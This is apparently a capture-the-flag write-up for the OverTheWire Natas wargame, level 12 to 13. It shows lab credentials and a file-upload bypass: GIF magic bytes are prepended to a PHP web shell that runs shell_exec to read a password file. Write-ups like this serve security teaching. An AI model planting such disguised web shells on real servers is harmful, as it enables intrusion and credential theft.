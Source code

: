 # Level 12 → Level 13

## Details
Username: `natas13`<br />
Password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`<br />
URL:      http://natas13.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

<img src="./2.png"></img>

So, we will take magic bytes of an image of some type, for example **gif** with bytes `GIF87a`, and inject it to the beginning of the previous php file.

```php
# get_password.php
GIF87a<?php
echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```

<img src="./3.png"></img>

<img src="./4.png"></img>

<img src="./5.png"></img>


## Password for the next level:
```
GIF87aqPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```
